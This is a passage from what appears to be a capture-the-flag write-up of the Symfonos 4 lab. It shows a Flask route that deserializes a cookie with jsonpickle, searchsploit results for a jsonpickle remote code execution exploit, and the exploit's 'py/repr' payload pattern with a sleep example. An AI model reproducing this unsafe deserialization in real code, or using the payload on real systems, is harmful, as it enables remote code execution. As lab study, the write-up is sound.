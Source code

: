 ```console
def whoami():
    user = jsonpickle.decode(base64.b64decode(request.cookies.get("username")))
    username = user.username
    return render_template("whoami.html", username=username)


if __name__ == '__main__':
    app.run()
```

Searching for vulnerabilities with searchsploit, I found that the **jsonpickle** module is vulnerable to Remote Code Execution, as shown below:

```console
root@kali:~$ searchsploit jsonpickle                 
------------------------------------------------------------ ---------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------
python jsonpickle 2.0.0 - Remote Code Execution             | multiple/remote/49585.py
------------------------------------------------------------ ---------------------------
```

We transfer a copy of the exploit to our current directory, and we analyze the proof of concept to exploit this vulnerability, this security flaw consists if malicious data is deserialized, it will execute arbitrary Python commands, the problem is in the inner function loadrepr function which eval each serialized string which contains "py/repr", to know more obout this vulnerability you can find it [here](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/).

```console
root@kali:~$ searchsploit -m multiple/remote/49585.py


root@kali:~$ cat 49585.py
...
#       the pattern should be :
#       {..{"py/repr":<the module to import>/<the command to be executed.>}..}

#       example:

malicious = '{"1": {"py/repr": "time/time.sleep(10)"}, "2": {"py/id": 67}}'
...
```

### Jsonpickle Module

First we intercept the web page request, and send it to repeater.

![](/assets/images/symfonos4/screenshot-9.png)
